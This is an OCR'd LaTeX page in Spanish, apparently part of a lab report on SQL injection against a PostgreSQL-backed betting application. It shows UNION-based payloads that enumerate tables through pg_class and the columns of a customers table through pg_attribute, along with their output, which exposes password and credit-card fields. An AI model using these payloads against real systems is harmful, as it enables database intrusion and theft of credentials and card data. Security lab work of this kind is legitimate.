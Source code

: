 \documentclass{article}
\begin{document}
Usando esto, es relativamente sencillo en la tabla anterior, recuperar las tablas de interés con la siquiente entrada:

\begin{lstlisting}
a' union select oid || ' ' || relname || ' ' || relnamespace from pg_class where relnamespace = 2200 and '1'='1

\end{lstlisting}

La cual devuelve:
\begin{lstlisting}
    20700 optionbet 2200
    20690 clientorders_id_seq 2200
    20706 options 2200
    20723 clientorders_pkey 2200
    20725 customers_pkey 2200
    20727 customers_username_key 2200
    20709 options_optionid_seq 2200
    20721 clientbets_pkey 2200
    20698 customers_customerid_seq 2200
    20677 clientbets 2200
    20715 bets_pkey 2200
    20731 options_pkey 2200
    20683 clientorders 2200
    20675 categorias_categoriaid_seq 2200
    20670 bets_betid_seq 2200
    20717 categorias_categoria_key 2200
    20667 bets 2200
    20672 categorias 2200
    20729 optionbet_pkey 2200
    20719 categorias_pkey 2200
    20692 customers 2200
\end{lstlisting}
{\footnotesize Salida completa en \texttt{tablas\_interes.html}}

\subsubsection{Identificar los atributos de una tabla}
En este caso, se hallará el esquema de la tabla \texttt{customers}

En primer lugar se halla el oid de la tabla de interes. Si nos fijamos, la entrada anterior imprimía el oid de la tabla, por lo cual basta fijarse en el oid 20692.

Con este oid, se pretende buscar en la tabla \texttt{pg\_attribute}. Para ello, se vuelve a realizar otra consulta con otra entrada:
\begin{lstlisting}
a' union select attname || ' ' || attrelid from pg_attribute where attrelid=20692 and '1'='1
\end{lstlisting}
Y el resultado es:
\begin{lstlisting}
    address2 20692
    creditcardexpiration 20692
    address1 20692
    cmin 20692
    country 20692
    age 20692
    customerid 20692
    xmin 20692
    city 20692
    password 20692
    tableoid 20692
    ctid 20692
    credit 20692
    state 20692
    zip 20692
    phone 20692
    cmax 20692
    region 20692
    lastname 20692
    email 20692
    creditcard 20692
    creditcardtype 20692
    firstname 20692
    username 20692
    gender 20692
    xmax 20692
\end{lstlisting}
{\footnotesize Salida completa en \texttt{atributos\_customer.html}}
\end{document}
